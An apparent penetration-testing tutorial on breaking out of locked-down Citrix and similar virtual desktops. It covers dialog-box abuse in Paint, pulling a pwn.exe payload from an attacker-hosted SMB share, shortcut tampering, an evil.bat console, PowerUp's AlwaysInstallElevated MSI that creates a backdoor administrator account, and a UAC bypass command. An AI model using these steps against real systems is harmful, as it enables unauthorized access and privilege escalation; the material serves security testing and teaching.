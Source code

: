 # Citrix Breakout

In this section will cover: **Citrix Breakout**

## Citrix Breakout

Numerous organizations leverage virtualization platforms such as Terminal Services, Citrix, AWS AppStream, CyberArk PSM and Kiosk to offer remote access solutions in order to meet their business requirements. However, in most organizations "lock-down" measures are implemented in their desktop environments to minimize the potential impact of malicious staff members and compromised accounts on overall domain security. While these desktop restrictions can impede threat actors, there remains a possibility for them to "break-out" of the restricted environment.

Basic Methodology for break-out:
- Gain access to a Dialog Box.
- Exploit the Dialog Box to achieve command execution.
- Escalate privileges to gain higher levels of access.

In certain environments, where minimal hardening measures are implemented, there might even be a standard shortcut to cmd.exe in the Start Menu, potentially aiding in unauthorized access. However, in a highly restrictive lock-down environment, any attempts to locate "cmd.exe" or "powershell.exe" in the start menu will yield no results. Similarly, accessing C:\Windows\system32 through File Explorer will trigger an error, preventing direct access to critical system utilities. Acquiring access to the "CMD/Command Prompt" in such a restricted environment represents a notable achievement, as it provides extensive control over the Operating System. This level of control empowers an attacker to gather valuable information, facilitating the further escalation of privileges.

**Bypassing Path Restrictions**

When we attempt to visit C:\Users using File Explorer, we find it is restricted and results in an error. This indicates that group policy has been implemented to restrict users from browsing directories in the C:\ drive using File Explorer. In such scenarios, it is possible to utilize windows dialog boxes as a means to bypass the restrictions imposed by group policy. Once a Windows dialog box is obtained, the next step often involves navigating to a folder path containing native executables that offer interactive console access (i.e.: cmd.exe). Usually, we have the option to directly enter the folder path into the file name field to gain access to the file.

Numerous desktop applications deployed via Citrix are equipped with functionalities that enable them to interact with files on the operating system. Features like Save, Save As, Open, Load, Browse, Import, Export, Help, Search, Scan, and Print, usually provide an attacker with an opportunity to invoke a Windows dialog box. There are multiple ways to open dialog box in windows using tools such as Paint, Notepad, Wordpad, etc. We will cover using MS Paint as an example for this section.

Example Paint
````
# Paint

# Step 1 -  File > Open
# Step 2 - In file Name field with All Files: \\127.0.0.1\c$\users\<user>\Directory
````
Accessing SMB share from restricted environment
````
# Step 1 - Create SMB server
$ impacket-smbserver -smb2support share $(pwd)

# Step 2 - Navigate to the "File" menu and select "Open"

# Step 3 - In file Name with All Files: \\<Our_IP>\share

# Step 4 - Press <Enter> and Verify if all files are there

# Step 5 - Right-click on the pwn.exe binary and select Open
````

**Alternate Explorer**

In cases where strict restrictions are imposed on File Explorer, alternative File System Editors like Q-Dir or Explorer++ can be employed as a workaround. These tools can bypass the folder restrictions enforced by group policy, allowing users to navigate and access files and directories that would otherwise be restricted within the standard File Explorer environment.
````
# Step 1 - Create SMB server
$ impacket-smbserver -smb2support share $(pwd)

# Step 2 - Navigate to the "File" menu and select "Open"

# Step 3 - In file Name with All Files: \\<Our_IP>\share

# Step 4 - Press <Enter> and Verify if all files are there

# Step 5 - Right-click on the Explorer++.exe binary and select Open
````

**Modify existing shortcut file**

Unauthorized access to folder paths can also be achieved by modifying existing Windows shortcuts and setting a desired executable's path in the Target field.

The following steps outline the process:
- Right-click the desired shortcut.
- Select Properties.
- Within the Target field, modify the path to the intended folder for access. (C:\Windows\System32\cmd.exe)
- Execute the Shortcut and cmd will be spawned

**Script Execution**

When script extensions such as .bat, .vbs, or .ps are configured to automatically execute their code using their respective interpreters, it opens the possibility of dropping a script that can serve as an interactive console or facilitate the download and launch of various third-party applications which results into bypass of restrictions in place. This situation creates a potential security vulnerability where malicious actors could exploit these features to execute unauthorized actions on the system.
- Create a new text file and name it "evil.bat".
- Open "evil.bat" with a text editor such as Notepad.
- Input the command "cmd" into the file.
- Save the file.

## Escalating Privileges

Once access to the command prompt is established, it's possible to search for vulnerabilities in a system more easily. For instance, tools like Winpeas and PowerUp can also be employed to identify potential security issues and vulnerabilities within the operating system.

Using PowerUp.ps1, we find that Always Install Elevated key is present and set.

We can also validate this using the Command Prompt by querying the corresponding registry keys:
````
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1
````
Once more, we can make use of PowerUp, using it's Write-UserAddMSI function. This function facilitates the creation of an .msi file directly on the desktop.
````
> Import-Module .\PowerUp.ps1
> Write-UserAddMSI
# Will create UserAdd.msi
````
Now we can execute UserAdd.msi and create a new user backdoor:T3st@123 under Administrators group. Note that giving it a password that doesn’t meet the password complexity criteria will throw an error.
````
> runas /user:backdoor cmd

Enter the password for backdoor: T3st@123
Attempting to start cmd as user "VDESKTOP3\backdoor" ..
````

**Bypassing UAC**

````
https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC
> Import-Module .\Bypass-UAC.ps1
> Bypass-UAC -Method UacMethodSysprep
````
